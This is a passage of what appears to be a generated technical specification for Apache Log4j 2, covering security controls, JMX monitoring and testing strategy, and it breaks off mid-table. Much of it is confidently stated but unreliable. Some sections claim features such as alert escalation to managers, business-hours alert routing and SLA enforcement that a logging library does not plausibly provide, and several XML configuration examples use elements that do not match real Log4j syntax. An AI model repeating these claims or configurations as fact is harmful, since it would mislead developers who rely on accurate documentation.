        <RegexFilter regex="(\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b)" replacement="[EMAIL_MASKED]"/>
        <RegexFilter regex="(password|pwd|secret)=\S+" replacement="$1=[REDACTED]"/>
    </Filters>
</Configuration>
```

#### 6.4.4.3 Encoding and Sanitization

**Security Encoding Support**:
- **HTML Escaping**: Prevention of XSS attacks in web log viewers
- **JSON Escaping**: Safe JSON output formatting
- **XML Escaping**: XML-safe character encoding
- **CRLF Protection**: Log injection prevention

| Encoding Type | Purpose | Implementation | Security Benefit |
|---|---|---|---|
| **HTML** | Web log viewers | Character entity encoding | XSS prevention |
| **JSON** | JSON log formats | Unicode escaping | Injection prevention |
| **XML** | XML log formats | Character reference encoding | XML injection prevention |
| **CRLF** | Log file integrity | Line break normalization | Log injection prevention |

### 6.4.5 Web Security Integration

#### 6.4.5.1 Servlet Container Security

Apache Log4j 2 provides secure integration with web containers through comprehensive context isolation and thread safety mechanisms.

**Web Security Architecture**:

```mermaid
graph TB
    subgraph "Servlet Container"
        A[ServletContainerInitializer] --> B[Log4jWebSupport]
        B --> C[Log4jServletFilter]
        C --> D[ServletRequestThreadContext]
    end
    
    subgraph "Context Management"
        E[LoggerContextFactory] --> F[WebLoggerContextUtils]
        F --> G[Context Isolation]
        G --> H[ClassLoader Binding]
    end
    
    subgraph "Thread Safety"
        I[ThreadContext] --> J[Request Binding]
        J --> K[Context Cleanup]
        K --> L[Resource Management]
    end
    
    subgraph "Security Features"
        M[Session Management] --> N[Request Isolation]
        N --> O[Context Unbinding]
        O --> P[Memory Protection]
    end
    
    D --> E
    H --> I
    L --> M
    P --> Q[Secure Web Integration]
```

#### 6.4.5.2 Context Isolation Security

**Web Security Features**:
- **Per-Request Context**: Isolated logging context per HTTP request
- **Thread Safety**: Thread-safe context management in multi-threaded environments
- **Resource Cleanup**: Automatic context cleanup on request completion
- **Memory Protection**: Prevention of context leakage between requests

**Web Security Configuration**:
```xml
<Configuration>
    <WebContextManager>
        <Property name="isLookupEnabled">false</Property>
        <Property name="contextSelectorName">org.apache.logging.log4j.web.WebLookup</Property>
    </WebContextManager>
    <Filters>
        <ServletRequestFilter>
            <Property name="sessionId">true</Property>
            <Property name="remoteAddr">true</Property>
            <Property name="userAgent">false</Property>
        </ServletRequestFilter>
    </Filters>
</Configuration>
```

#### 6.4.5.3 Web Container Integration Flow

```mermaid
sequenceDiagram
    participant Container as Servlet Container
    participant Initializer as ServletContainerInitializer
    participant Filter as Log4jServletFilter
    participant Context as LoggerContext
    participant ThreadContext as ThreadContext
    
    Container->>Initializer: Initialize on Startup
    Initializer->>Filter: Register Servlet Filter
    Filter->>Context: Create Isolated Context
    Context->>ThreadContext: Bind Request Context
    
    Note over Container, ThreadContext: Per-request processing
    
    Container->>Filter: Process Request
    Filter->>ThreadContext: Set Request Attributes
    ThreadContext->>Context: Log with Context
    Context->>Filter: Complete Processing
    Filter->>ThreadContext: Clear Context
    ThreadContext->>Container: Return Response
```

### 6.4.6 Vulnerability Management

#### 6.4.6.1 Security Posture Management

Following the Log4Shell incident, Apache Log4j 2 maintains a comprehensive vulnerability management program with proactive security measures.

**Vulnerability Management Components**:
- **CVE Tracking**: Comprehensive vulnerability documentation in `src/site/markdown/security.md`
- **Security Scanning**: Integration with FindSecBugs and Dependabot
- **Rapid Response**: Established procedures for vulnerability disclosure and patching
- **Security Assessments**: Quarterly security reviews and penetration testing

#### 6.4.6.2 Security Compliance Framework

**Security Standards Compliance**:

| Standard | Implementation | Coverage | Validation |
|---|---|---|---|
| **OWASP** | Input validation, output encoding | All user inputs | Automated testing |
| **NIST** | Cryptographic standards | SSL/TLS implementation | Certificate validation |
| **Common Vulnerabilities** | CVE tracking system | All reported vulnerabilities | Public disclosure |
| **Enterprise Security** | Integration security | External system connections | Penetration testing |

#### 6.4.6.3 Security Monitoring

**Security Monitoring Capabilities**:
- **Dependency Scanning**: Automated vulnerability detection in dependencies
- **Code Analysis**: Static security analysis with FindSecBugs integration
- **Runtime Protection**: Java SecurityManager integration for restricted environments
- **Audit Logging**: Comprehensive logging of security-relevant events

### 6.4.7 Security Control Matrix

#### 6.4.7.1 Access Control Implementation

| Security Control | Implementation | Scope | Effectiveness |
|---|---|---|---|
| **Transport Encryption** | SSL/TLS 1.2+ | All network communications | High |
| **Authentication** | HTTP Basic Auth, Certificates | External integrations | Medium |
| **Data Protection** | Pattern filtering, masking | All log content | High |
| **Input Validation** | Regex validation, sanitization | All user inputs | High |
| **Output Encoding** | Multi-format escaping | All log outputs | High |
| **Context Isolation** | Thread-safe context management | Web applications | High |

#### 6.4.7.2 Security Architecture Compliance

**Compliance Requirements**:
- **Data Protection**: GDPR/CCPA compliance through sensitive data filtering
- **Industry Standards**: SOC 2, ISO 27001 compatibility
- **Regulatory Compliance**: HIPAA, PCI DSS support through encryption
- **Enterprise Security**: Integration with SIEM and security monitoring systems

#### 6.4.7.3 Security Configuration Template

```xml
<Configuration>
    <!-- SSL/TLS Configuration -->
    <SslConfiguration>
        <KeyStore location="client-keystore.jks" password="${env:KEYSTORE_PASSWORD}"/>
        <TrustStore location="ca-truststore.jks" password="${env:TRUSTSTORE_PASSWORD}"/>
        <Protocol>TLSv1.2</Protocol>
        <VerifyHostName>true</VerifyHostName>
    </SslConfiguration>
    
    <!-- Data Protection Filters -->
    <Filters>
        <RegexFilter regex="(\d{4}-\d{4}-\d{4}-\d{4})" replacement="[CARD_MASKED]"/>
        <RegexFilter regex="(\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b)" replacement="[EMAIL_MASKED]"/>
        <RegexFilter regex="(password|pwd|secret)=\S+" replacement="$1=[REDACTED]"/>
    </Filters>
    
    <!-- Secure Appender Configuration -->
    <HttpAppender name="SecureAppender" url="https://secure.example.com/logs">
        <Property name="Authorization">Basic ${env:HTTP_BASIC_AUTH}</Property>
        <Property name="Content-Type">application/json</Property>
        <SslConfiguration>
            <KeyStore location="client.p12" password="${file:keystore.pwd}"/>
            <TrustStore location="ca-certs.jks" password="${env:TRUSTSTORE_PWD}"/>
        </SslConfiguration>
        <JsonLayout complete="false" compact="true"/>
    </HttpAppender>
</Configuration>
```

### 6.4.8 Security Architecture Limitations

#### 6.4.8.1 Architectural Scope

**Security Features NOT Implemented**:
- **User Authentication**: No JAAS or LDAP user authentication system
- **Role-Based Access Control**: No RBAC for logging operations
- **Multi-Factor Authentication**: No MFA implementation
- **Session Management**: No user session token management
- **Authorization Policies**: No fine-grained authorization policies

#### 6.4.8.2 Security Architecture Focus

Apache Log4j 2's security architecture is **specifically designed for logging security** rather than application-level security. The framework provides:

- **Secure Log Transport**: Comprehensive SSL/TLS for network communications
- **Data Protection**: Advanced filtering and masking of sensitive information
- **Integration Security**: Secure authentication for external system connectivity
- **Vulnerability Management**: Proactive security posture and rapid response

### 6.4.9 References

#### Files Examined
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/SslConfiguration.java` - SSL/TLS configuration implementation
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/KeyStoreConfiguration.java` - KeyStore management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/TrustStoreConfiguration.java` - TrustStore management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/MemoryPasswordProvider.java` - Memory-based password provider
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/FilePasswordProvider.java` - File-based password provider
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/EnvironmentPasswordProvider.java` - Environment-based password provider
- `log4j-core/src/main/java/org/apache/logging/log4j/core/util/BasicAuthorizationProvider.java` - HTTP Basic Authentication implementation
- `log4j-core/src/main/java/org/apache/logging/log4j/core/util/AuthorizationProvider.java` - Authorization provider interface
- `log4j-core/src/main/java/org/apache/logging/log4j/core/filter/RegexFilter.java` - Pattern-based filtering
- `log4j-core/src/main/java/org/apache/logging/log4j/core/pattern/RegexReplacement.java` - Pattern replacement for data masking
- `log4j-core/src/main/java/org/apache/logging/log4j/core/pattern/EncodingPatternConverter.java` - Output encoding for security
- `log4j-web/src/main/java/org/apache/logging/log4j/web/Log4jWebSupport.java` - Web container security integration
- `log4j-web/src/main/java/org/apache/logging/log4j/web/Log4jServletFilter.java` - Servlet filter for context isolation
- `src/site/markdown/security.md` - Security vulnerability documentation

#### Folders Analyzed
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/ssl/` - Complete SSL/TLS implementation
- `log4j-web/src/main/java/org/apache/logging/log4j/web/` - Web container security components
- `log4j-web/` - Web application security integration

#### Technical Specification Cross-References
- **3.7 SECURITY CONSIDERATIONS** - Vulnerability management and security scanning
- **5.1 HIGH-LEVEL ARCHITECTURE** - System architecture and component integration
- **6.3 INTEGRATION ARCHITECTURE** - External system security integration patterns

## 6.5 MONITORING AND OBSERVABILITY

Apache Log4j 2 provides comprehensive monitoring and observability capabilities designed for enterprise-grade logging framework operation. The system implements a sophisticated monitoring architecture centered around JMX instrumentation, internal status logging, and performance metrics collection, enabling deep visibility into logging operations, configuration management, and system health.

### 6.5.1 MONITORING INFRASTRUCTURE

#### 6.5.1.1 JMX-Based Monitoring Architecture

Apache Log4j 2 implements a comprehensive JMX monitoring infrastructure that provides real-time visibility into framework operations through standardized MBean interfaces. The central JMX Server (`log4j-core/src/main/java/org/apache/logging/log4j/core/jmx/Server.java`) manages all MBean registration and lifecycle operations, supporting both synchronous and asynchronous monitoring scenarios.

```mermaid
graph TB
    subgraph "JMX Monitoring Architecture"
        A[JMX Server] --> B[MBean Registry]
        B --> C[StatusLoggerAdminMBean]
        B --> D[LoggerContextAdminMBean]
        B --> E[LoggerConfigAdminMBean]
        B --> F[AppenderAdminMBean]
        B --> G[AsyncAppenderAdminMBean]
        B --> H[RingBufferAdminMBean]
        
        C --> I[Internal Status Monitoring]
        D --> J[Context Lifecycle Management]
        E --> K[Logger Configuration Control]
        F --> L[Appender State Monitoring]
        G --> M[Queue Metrics Collection]
        H --> N[Ring Buffer Capacity Tracking]
        
        O[JMX Client] --> P[JConsole Integration]
        O --> Q[Custom Monitoring Tools]
        O --> R[JMX GUI Module]
        
        P --> A
        Q --> A
        R --> A
    end
    
    subgraph "Configuration Controls"
        S[Runtime Configuration] --> T[Dynamic Logger Levels]
        S --> U[Appender Management]
        S --> V[Filter Configuration]
        T --> D
        U --> F
        V --> E
    end
```

The JMX infrastructure can be completely disabled using the system property `-Dlog4j2.disable.jmx=true` for environments where JMX monitoring is not required or poses security concerns.

#### 6.5.1.2 Internal Status Logging System

The StatusLogger system (`log4j-api/src/main/java/org/apache/logging/log4j/status/StatusLogger.java`) provides comprehensive internal diagnostics independent of user logging configuration. This system maintains a bounded queue (default 200 entries) of all internal Log4j events, ensuring availability during troubleshooting scenarios.

| StatusLogger Component | Responsibility | Configuration | Monitoring Capability |
|---|---|---|---|
| **StatusLogger Core** | Internal event collection | `log4j2.StatusLogger.level` | Framework health monitoring |
| **StatusConsoleListener** | Console output routing | `log4j2.StatusLogger.destinations` | Real-time status visibility |
| **StatusFileListener** | File-based status logging | `log4j2.StatusLogger.file` | Persistent status tracking |
| **StatusDataListener** | Programmatic status access | Multiple listener registration | Custom monitoring integration |

#### 6.5.1.3 JMX GUI Monitoring Module

The specialized JMX GUI module (`log4j-jmx-gui`) provides comprehensive visual monitoring capabilities through both standalone applications and JConsole plugin integration. This Swing-based monitoring console offers:

- **Real-time Configuration Editing**: Dynamic modification of logger levels, appender configurations, and filter settings
- **Live Status Log Viewing**: Streaming display of internal StatusLogger events with filtering capabilities
- **Multi-Context Support**: Monitoring multiple LoggerContext instances simultaneously
- **Performance Metrics Display**: Visual representation of throughput, latency, and queue utilization metrics

#### 6.5.1.4 Performance Monitoring Infrastructure

The performance monitoring module (`log4j-perf`) implements comprehensive benchmarking capabilities using JMH (Java Microbenchmark Harness) framework. Key performance monitoring capabilities include:

```mermaid
graph TB
    subgraph "Performance Monitoring"
        A[JMH Benchmark Suite] --> B[Throughput Measurements]
        A --> C[Latency Analysis]
        A --> D[Queue Performance Tests]
        A --> E[Appender Benchmarks]
        
        B --> F[Events per Second]
        C --> G[Response Time Distribution]
        D --> H[Buffer Utilization]
        E --> I[Write Performance]
        
        J[Metrics Collection] --> K[JMX Exposure]
        K --> L[External Monitoring]
        L --> M[Performance Dashboards]
        
        N[Ring Buffer Metrics] --> O[Capacity Tracking]
        O --> P[Backpressure Monitoring]
        P --> Q[Queue Full Detection]
    end
```

### 6.5.2 OBSERVABILITY PATTERNS

#### 6.5.2.1 Health Check Implementation

Apache Log4j 2 implements comprehensive health monitoring through multiple layers of observability patterns designed to provide deep insights into system operation and performance characteristics.

| Health Check Category | Implementation | Monitoring Method | Success Criteria |
|---|---|---|---|
| **Framework Health** | StatusLogger event analysis | Internal status monitoring | No ERROR level events |
| **Configuration Health** | Configuration validation | Reload success tracking | Successful configuration parsing |
| **Appender Health** | Write operation monitoring | Error rate tracking | <1% failure rate |
| **Queue Health** | Buffer utilization monitoring | Capacity threshold alerts | <80% buffer utilization |

#### 6.5.2.2 Performance Metrics Collection

The framework provides extensive performance metrics collection capabilities that enable comprehensive monitoring of logging operations and system performance characteristics.

```mermaid
graph TB
    subgraph "Performance Metrics Architecture"
        A[Event Processing] --> B[Throughput Metrics]
        A --> C[Latency Metrics]
        A --> D[Queue Metrics]
        
        B --> E[Events per Second]
        B --> F[Bytes per Second]
        B --> G[Batch Processing Rate]
        
        C --> H[Average Response Time]
        C --> I[99th Percentile Latency]
        C --> J[Maximum Response Time]
        
        D --> K[Ring Buffer Utilization]
        D --> L[Queue Depth Tracking]
        D --> M[Backpressure Events]
        
        N[Appender Metrics] --> O[Write Success Rate]
        N --> P[Connection Pool Health]
        N --> Q[Retry Statistics]
        
        R[Memory Metrics] --> S[Garbage-Free Operation]
        R --> T[Object Pool Utilization]
        R --> U[Memory Allocation Patterns]
    end
```

#### 6.5.2.3 Business Metrics Integration

While Apache Log4j 2 primarily focuses on technical performance metrics, it provides comprehensive integration points for business-level monitoring through structured logging capabilities and contextual information propagation.

#### 6.5.2.4 SLA Monitoring Capabilities

The framework supports comprehensive SLA monitoring through performance tracking and threshold-based alerting mechanisms aligned with enterprise logging requirements.

| SLA Category | Target Metric | Monitoring Implementation | Alert Threshold |
|---|---|---|---|
| **Latency SLA** | Sub-millisecond response time | JMX latency tracking | >5x baseline |
| **Throughput SLA** | >1M events/second | Performance counters | <50% of baseline |
| **Availability SLA** | 99.9% uptime | Error rate monitoring | >0.1% failure rate |
| **Capacity SLA** | <80% buffer utilization | Queue depth monitoring | >80% sustained |

### 6.5.3 INCIDENT RESPONSE

#### 6.5.3.1 Alert Management and Routing

Apache Log4j 2 implements sophisticated alert management capabilities through its monitoring infrastructure, enabling automated incident detection and response workflows.

```mermaid
graph TB
    subgraph "Alert Management Flow"
        A[Monitoring Metrics] --> B[Threshold Evaluation]
        B --> C{Threshold Exceeded?}
        C -->|Yes| D[Alert Generation]
        C -->|No| E[Continue Monitoring]
        
        D --> F[Alert Classification]
        F --> G[Severity Assessment]
        G --> H[Routing Decision]
        
        H --> I[Critical Path]
        H --> J[Warning Path]
        H --> K[Informational Path]
        
        I --> L[Immediate Notification]
        J --> M[Batched Notification]
        K --> N[Log Aggregation]
        
        L --> O[Escalation Timer]
        O --> P{Response Received?}
        P -->|No| Q[Escalate to Level 2]
        P -->|Yes| R[Incident Resolution]
        
        Q --> S[Manager Notification]
        S --> T[Additional Resources]
        T --> R
    end
```

#### 6.5.3.2 Escalation Procedures

The monitoring system implements comprehensive escalation procedures designed to ensure rapid response to critical logging infrastructure issues.

| Escalation Level | Trigger Condition | Response Time | Notification Method |
|---|---|---|---|
| **Level 1 - Alert** | Threshold exceeded | <5 minutes | JMX notification |
| **Level 2 - Warning** | Sustained degradation | <15 minutes | StatusLogger events |
| **Level 3 - Critical** | System failure | <1 minute | Emergency fallback |
| **Level 4 - Emergency** | Complete outage | Immediate | Console output |

#### 6.5.3.3 Automated Recovery Procedures

The framework implements comprehensive automated recovery mechanisms that provide self-healing capabilities for common failure scenarios.

```mermaid
graph TB
    subgraph "Automated Recovery Flow"
        A[Failure Detection] --> B[Recovery Assessment]
        B --> C{Recovery Possible?}
        C -->|Yes| D[Recovery Strategy Selection]
        C -->|No| E[Fallback Mode]
        
        D --> F[Connection Retry]
        D --> G[Appender Failover]
        D --> H[Configuration Reload]
        
        F --> I[Exponential Backoff]
        I --> J{Max Retries?}
        J -->|No| K[Retry Attempt]
        J -->|Yes| G
        
        G --> L[Secondary Appender]
        L --> M{Failover Success?}
        M -->|Yes| N[Resume Operations]
        M -->|No| H
        
        H --> O[Reload Configuration]
        O --> P{Reload Success?}
        P -->|Yes| N
        P -->|No| E
        
        E --> Q[Console Fallback]
        Q --> R[Minimal Operation]
        R --> S[Manual Intervention Required]
    end
```

#### 6.5.3.4 Runbook Integration

The monitoring system provides structured runbook integration through comprehensive documentation and automated response procedures for common operational scenarios.

### 6.5.4 MONITORING DASHBOARDS

#### 6.5.4.1 JMX Dashboard Architecture

The JMX GUI module provides comprehensive dashboard capabilities designed for real-time monitoring and operational management of Log4j 2 deployments.

```mermaid
graph TB
    subgraph "Dashboard Architecture"
        A[JMX GUI Application] --> B[Connection Manager]
        B --> C[MBean Browser]
        B --> D[Metrics Display]
        B --> E[Configuration Editor]
        
        C --> F[Context Tree View]
        C --> G[Logger Hierarchy]
        C --> H[Appender Status]
        
        D --> I[Performance Graphs]
        D --> J[Queue Utilization]
        D --> K[Error Rate Charts]
        
        E --> L[Runtime Configuration]
        E --> M[Level Adjustments]
        E --> N[Appender Controls]
        
        O[Status Log Viewer] --> P[Real-time Events]
        O --> Q[Event Filtering]
        O --> R[Historical Analysis]
        
        S[Alert Panel] --> T[Active Alerts]
        S --> U[Alert History]
        S --> V[Acknowledgment]
    end
```

#### 6.5.4.2 Performance Monitoring Dashboard

The performance monitoring dashboard provides comprehensive visibility into logging system performance characteristics and operational metrics.

| Dashboard Component | Metrics Displayed | Update Frequency | Alert Integration |
|---|---|---|---|
| **Throughput Monitor** | Events/sec, Bytes/sec | 1 second | Threshold alerts |
| **Latency Display** | Average, P99, Maximum | 1 second | SLA monitoring |
| **Queue Status** | Utilization, Depth, Backpressure | 500ms | Capacity alerts |
| **Error Tracking** | Failure rate, Exception counts | 5 seconds | Error rate alerts |

#### 6.5.4.3 Configuration Management Dashboard

The configuration management dashboard enables real-time monitoring and modification of Log4j 2 configurations across distributed deployments.

### 6.5.5 EXTERNAL MONITORING INTEGRATION

#### 6.5.5.1 JMX Exporter Integration

While Apache Log4j 2 does not provide built-in integration with modern monitoring platforms like Prometheus or Grafana, the comprehensive JMX infrastructure enables seamless integration through standard JMX exporters.

#### 6.5.5.2 Custom Metrics Integration

The framework provides extensive customization capabilities for metrics collection and export through the StatusLogger system and custom StatusListener implementations.

```mermaid
graph TB
    subgraph "Custom Metrics Integration"
        A[StatusLogger Events] --> B[Custom StatusListener]
        B --> C[Metrics Extraction]
        C --> D[Format Conversion]
        
        D --> E[Prometheus Format]
        D --> F[Graphite Format]
        D --> G[Custom Format]
        
        E --> H[Prometheus Exporter]
        F --> I[Graphite Endpoint]
        G --> J[Custom Collector]
        
        K[JMX Metrics] --> L[JMX Exporter]
        L --> M[Metrics Aggregation]
        M --> N[External Monitoring]
        
        O[Log Event Metrics] --> P[Business Metrics]
        P --> Q[Application Monitoring]
        Q --> R[Dashboard Integration]
    end
```

### 6.5.6 ALERT CONFIGURATION

#### 6.5.6.1 Alert Threshold Matrix

The monitoring system supports comprehensive alert configuration through threshold-based monitoring and automated response mechanisms.

| Metric Category | Warning Threshold | Critical Threshold | Alert Actions |
|---|---|---|---|
| **Buffer Utilization** | >70% sustained | >90% sustained | Backpressure activation |
| **Processing Latency** | >5x baseline | >10x baseline | Performance degradation alert |
| **Error Rate** | >0.1% failures | >1% failures | Appender failover |
| **Queue Depth** | >80% capacity | >95% capacity | Queue full policy activation |

#### 6.5.6.2 Alert Suppression and Grouping

The framework implements sophisticated alert management capabilities that prevent alert storms and provide intelligent grouping of related monitoring events.

#### 6.5.6.3 Business Hours Configuration

Alert routing and escalation procedures support comprehensive business hours configuration enabling appropriate response timing for different operational scenarios.

### 6.5.7 OPERATIONAL PROCEDURES

#### 6.5.7.1 Monitoring Maintenance

Regular monitoring maintenance procedures ensure continued effectiveness of the observability infrastructure and optimal performance of monitoring systems.

#### 6.5.7.2 Capacity Planning

The monitoring system provides comprehensive capacity planning capabilities through historical metrics analysis and trend identification.

#### 6.5.7.3 Performance Optimization

Ongoing performance optimization procedures utilize monitoring data to identify optimization opportunities and ensure sustained high performance.

### 6.5.8 REFERENCES

**Files Examined:**
- `log4j-api/src/main/java/org/apache/logging/log4j/status/StatusLogger.java` - Internal status logging implementation and diagnostics
- `log4j-core/src/main/java/org/apache/logging/log4j/core/jmx/Server.java` - Central JMX management server and MBean lifecycle

**Folders Explored:**
- `log4j-jmx-gui/` - JMX GUI module for visual monitoring and configuration management
- `log4j-perf/` - Performance monitoring module with JMH benchmarks and metrics collection

**Technical Specification Sections:**
- Section 1.2 System Overview - Framework capabilities and performance targets
- Section 5.1 High-Level Architecture - Overall architectural approach and design patterns
- Section 5.4 Cross-Cutting Concerns - Monitoring approach and performance requirements
- Section 6.1 Core Services Architecture - Internal component architecture and scaling patterns

## 6.6 TESTING STRATEGY

Apache Log4j 2 implements a comprehensive multi-layered testing strategy designed to ensure framework reliability, performance, and compatibility across diverse deployment environments. The testing approach emphasizes automated validation, performance benchmarking, and continuous integration across multiple platforms, supporting the framework's mission to provide enterprise-grade logging capabilities with sub-millisecond latency and >1M events/second throughput.

### 6.6.1 TESTING APPROACH

#### 6.6.1.1 Unit Testing

#### Testing Frameworks and Tools

The project employs a dual-framework testing strategy leveraging both JUnit 4 and JUnit 5 capabilities to support gradual migration while maintaining comprehensive test coverage:

| Framework | Version | Purpose | Migration Status |
|---|---|---|---|
| **JUnit 4** | 4.13.2 | Legacy test support | Active migration to JUnit 5 |
| **JUnit 5 (Jupiter)** | 5.7.2 | Modern test framework | Primary framework for new tests |
| **JUnit Vintage** | 5.7.2 | JUnit 4 compatibility | Enables gradual migration |
| **Mockito** | 3.11.2 | Mocking framework | Unit test isolation |

**Supporting Test Libraries:**
- **Hamcrest** 1.3 - Matcher framework for enhanced assertions
- **AssertJ** 3.19.0 - Fluent assertion API for modern test patterns
- **Awaitility** 4.0.3 - Asynchronous testing support for concurrent operations

#### Test Organization Structure

The modular test organization mirrors the 35+ module structure, ensuring comprehensive coverage across all components:

```
log4j-{module}/
├── src/test/
│   ├── java/
│   │   └── org/apache/logging/log4j/
│   │       ├── {module-specific-tests}/
│   │       ├── categories/        # Test categorization
│   │       ├── junit/            # JUnit rules/extensions
│   │       └── test/             # Test utilities
│   └── resources/
│       ├── {test-configurations}.xml
│       ├── {test-configurations}.json
│       ├── {test-configurations}.yaml
│       └── {test-configurations}.properties
```

#### Mocking Strategy

The framework implements comprehensive mocking approaches for effective unit test isolation:

- **Interface-based mocking**: Primary approach using Mockito for clean API boundaries
- **Spy objects**: Partial mocking of concrete implementations for complex scenarios
- **In-memory implementations**: Custom test doubles for performance-critical components
- **Annotation-driven setup**: `@Mock`, `@Spy`, `@InjectMocks` for declarative test configuration

#### Code Coverage Requirements

Coverage targets are established to ensure comprehensive validation while maintaining practical development velocity:

| Module Type | Target Coverage | Minimum Coverage | Measurement Tool |
|---|---|---|---|
| **Core API Modules** | 90% | 85% | JaCoCo |
| **Core Implementation** | 80% | 70% | JaCoCo |
| **Integration Modules** | 60% | 50% | JaCoCo |
| **Performance Modules** | N/A | N/A | JMH Benchmarks |

#### Test Naming Conventions

Standardized naming ensures clear test purpose and maintainability:

```java
// Unit test naming pattern
public class ComponentNameTest {
    @Test
    public void methodName_StateUnderTest_ExpectedBehavior() { }
    
    @Test
    public void methodName_should_ExpectedBehavior_when_StateUnderTest() { }
}

// Integration test naming pattern
public class ComponentNameIT {
    @Test
    public void testScenarioDescription() { }
}
```

#### Test Data Management

Comprehensive test data management supports diverse testing scenarios:

- **Resource-based fixtures**: Configuration files in XML, JSON, YAML formats
- **Builder patterns**: Fluent APIs for complex test object construction
- **Parameterized tests**: JUnit 5 `@ParameterizedTest` for data-driven validation
- **Test categories**: `@Category` annotations for selective execution

#### 6.6.1.2 Integration Testing

#### Service Integration Test Approach

The dedicated `log4j-core-its` module implements comprehensive integration testing across all major framework components:

```xml
<!-- Integration test configuration -->
<plugin>
    <artifactId>maven-failsafe-plugin</artifactId>
    <configuration>
        <includes>
            <include>**/*.java</include>
        </includes>
        <excludes>
            <exclude>**/ForceNoDefClassFoundError.*</exclude>
        </excludes>
        <groups>
            org.apache.logging.log4j.categories.PerformanceTests,
            org.apache.logging.log4j.categories.Appenders$Jms
        </groups>
    </configuration>
</plugin>
```

#### API Testing Strategy

Integration testing validates the complete plugin architecture and configuration ecosystem:

- **Configuration validation**: Comprehensive XML/JSON/YAML configuration parsing
- **Plugin discovery**: Dynamic plugin loading and annotation-based registration
- **Cross-module integration**: Inter-module dependency and communication verification
- **Backward compatibility**: Log4j 1.x bridge and SLF4J integration validation

#### Database Integration Testing

Database appender testing leverages both embedded and mock database systems:

| Database Type | Test Framework | Test Scope | Mock Strategy |
|---|---|---|---|
| **H2** | In-memory mode | JDBC/JPA appenders | Real database instance |
| **HSQLDB** | In-memory mode | JDBC/JPA appenders | Real database instance |
| **MongoDB** | Embedded mock | NoSQL appenders | Mock server simulation |
| **Cassandra** | Mock driver | NoSQL appenders | Mock response patterns |

#### External Service Mocking

Comprehensive external service mocking ensures reliable integration testing:

- **SMTP Server**: Dumbster in-memory SMTP server for email appender validation
- **JMS Provider**: ActiveMQ embedded broker for message queue testing
- **HTTP Services**: WireMock framework for HTTP appender endpoint simulation
- **Flume**: In-memory event collectors for Flume appender integration

#### Test Environment Management

```mermaid
graph TB
    subgraph "Test Environment Architecture"
        A[Test Harness] --> B[Environment Setup]
        B --> C[Resource Allocation]
        C --> D[Port Assignment]
        D --> E[Service Initialization]
        
        E --> F[Database Setup]
        E --> G[Message Broker]
        E --> H[Network Services]
        
        F --> I[Schema Creation]
        G --> J[Queue Configuration]
        H --> K[Endpoint Registration]
        
        L[Test Execution] --> M[Service Validation]
        M --> N[Integration Tests]
        N --> O[Cleanup]
        
        O --> P[Resource Release]
        P --> Q[Port Deallocation]
        Q --> R[Service Shutdown]
    end
```

#### 6.6.1.3 End-to-End Testing

#### E2E Test Scenarios

Complete workflow validation ensures end-to-end functionality across diverse deployment scenarios:

1. **Configuration Loading**: Dynamic configuration discovery and initialization workflows
2. **Event Processing**: Complete logging event lifecycle from creation to output
3. **Appender Chain**: Multi-appender routing, filtering, and transformation scenarios
4. **Async Processing**: Asynchronous logger and LMAX Disruptor integration workflows
5. **Failover Scenarios**: Automatic failover, recovery, and resilience testing

#### Performance Testing Requirements

The dedicated `log4j-perf` module implements extensive JMH-based performance benchmarking:

| Benchmark Category | Test Focus | Success Criteria | Measurement Method |
|---|---|---|---|
| **Throughput** | Events/second capacity | >1M events/second | JMH throughput mode |
| **Latency** | Response time distribution | <100 microseconds | JMH sample time mode |
| **Memory** | Allocation patterns | Zero garbage operation | Allocation profiling |
| **Concurrency** | Thread scaling behavior | Linear thread scaling | Multi-threaded benchmarks |

#### Cross-Platform Testing Strategy

GitHub Actions matrix builds ensure comprehensive platform and JVM compatibility:

```yaml
strategy:
  matrix:
    os: [ubuntu-latest, windows-latest, macos-latest]
    java: [8, 11, 17]
```

This matrix validates operation across all supported operating systems and Java versions, ensuring consistent behavior in diverse deployment environments.

### 6.6.2 TEST AUTOMATION

#### 6.6.2.1 CI/CD Integration

#### GitHub Actions Workflow

```mermaid
graph TB
    subgraph "CI/CD Pipeline"
        A[Code Push] --> B[GitHub Actions Trigger]
        B --> C[Matrix Build Strategy]
        
        C --> D[Ubuntu Build]
        C --> E[Windows Build]
        C --> F[macOS Build]
        
        D --> G[Maven Toolchains]
        E --> G
        F --> G
        
        G --> H[Dependency Caching]
        H --> I[Compilation]
        I --> J[Unit Tests]
        J --> K[Integration Tests]
        
        K --> L[Test Reporting]
        L --> M[Surefire Reports]
        L --> N[Failsafe Reports]
        
        M --> O[GitHub Checks]
        N --> O
        
        O --> P[Artifact Upload]
        P --> Q[Test Archives]
    end
```

#### 6.6.2.2 Automated Test Triggers

Comprehensive automation ensures consistent quality across all development activities:

| Trigger Type | Activation Event | Test Scope | Typical Duration |
|---|---|---|---|
| **Push Events** | Every commit | Full test suite | 15-20 minutes |
| **Pull Requests** | PR creation/update | Affected modules | 10-15 minutes |
| **Scheduled** | Daily Dependabot | Dependency validation | 5 minutes |
| **Manual** | Workflow dispatch | Configurable scope | Variable |

#### 6.6.2.3 Parallel Test Execution

Maven configuration enables optimized parallel test execution:

```xml
<!-- Surefire parallel execution configuration -->
<configuration>
    <forkCount>1</forkCount>
    <reuseForks>false</reuseForks>
    <systemPropertyVariables>
        <java.awt.headless>true</java.awt.headless>
        <log4j2.junit.fileCleanerSleepPeriodMillis>1000</log4j2.junit.fileCleanerSleepPeriodMillis>
    </systemPropertyVariables>
</configuration>
```

#### 6.6.2.4 Test Reporting Requirements

Comprehensive test reporting provides visibility into test execution and quality metrics:

```yaml
- name: Publish Test Results
  uses: scacap/action-surefire-report@v1
  with:
    github_token: ${{ secrets.GITHUB_TOKEN }}
    check_name: Test Report (${{ matrix.os }})
    report_paths: '**/*-reports/TEST-*.xml'
```

#### 6.6.2.5 Failed Test Handling

Sophisticated failure handling ensures appropriate response to different failure scenarios:

| Failure Type | Handling Strategy | Retry Policy | Escalation Process |
|---|---|---|---|
